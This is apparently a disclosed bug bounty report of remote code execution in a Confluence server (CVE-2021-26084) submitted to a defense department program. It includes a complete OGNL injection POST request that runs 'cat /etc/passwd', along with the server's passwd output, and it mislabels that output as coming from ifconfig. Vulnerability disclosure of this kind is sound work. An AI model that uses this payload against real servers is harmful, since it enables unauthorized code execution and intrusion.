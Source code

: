 # RCE in ███ [CVE-2021-26084]

## Report Details
- **Report ID**: 1327769
- **URL**: https://hackerone.com/reports/1327769
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-09-02T05:49:27.833Z
- **Disclosed**: 2023-12-21T17:47:17.857Z

## Reporter
- **Username**: fdeleite
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
In affected versions of Confluence Server and Data Center, an OGNL injection vulnerability exists that would allow an authenticated user, and in some instances an unauthenticated user, to execute arbitrary code on a Confluence Server or Data Center instance. The vulnerable endpoints can be accessed by a non-administrator user or unauthenticated user if ‘Allow people to sign up to create their account’ is enabled. To check whether this is enabled go to COG > User Management > User Signup Options. The affected versions are before version 6.13.23, from version 6.14.0 before 7.4.11, from version 7.5.0 before 7.11.6, and from version 7.12.0

## Impact

-   An unauthenticated, 3rd-party attacker or adversary can execute remote code

## System Host(s)
██████████

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2021-26084

## Steps to Reproduce
POST
(command cat /etc/passwd)
```
POST /confluence/pages/doenterpagevariables.action HTTP/1.1
Host: ████
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Accept-Encoding: gzip
Content-Length: 915

queryString=aaaaaaaa\u0027%2b{Class.forName(\u0027javax.script.ScriptEngineManager\u0027).newInstance().getEngineByName(\u0027JavaScript\u0027).\u0065val(\u0027var+isWin+%3d+java.lang.System.getProperty(\u0022os.name\u0022).toLowerCase().contains(\u0022win\u0022)%3b+var+cmd+%3d+new+java.lang.String(\u0022cat /etc/passwd\u0022)%3bvar+p+%3d+new+java.lang.ProcessBuilder()%3b+if(isWin){p.command(\u0022cmd.exe\u0022,+\u0022/c\u0022,+cmd)%3b+}+else{p.command(\u0022bash\u0022,+\u0022-c\u0022,+cmd)%3b+}p.redirectErrorStream(true)%3b+var+process%3d+p.start()%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader(process.getInputStream())%3b+var+bufferedReader+%3d+new+java.io.BufferedReader(inputStreamReader)%3b+var+line+%3d+\u0022\u0022%3b+var+output+%3d+\u0022\u0022%3b+while((line+%3d+bufferedReader.readLine())+!%3d+null){output+%3d+output+%2b+line+%2b+java.lang.Character.toString(10)%3b+}\u0027)}%2b\u0027

```

You will see the output of the ifconfig command

OUTPUT
```
         type="hidden"
          name="queryString"            value="aaaaaaaa[root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
confluence:x:2002:2002::/var/atlassian/application-data/confluence:/bin/bash
]"             />                <input
]"             />
```

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
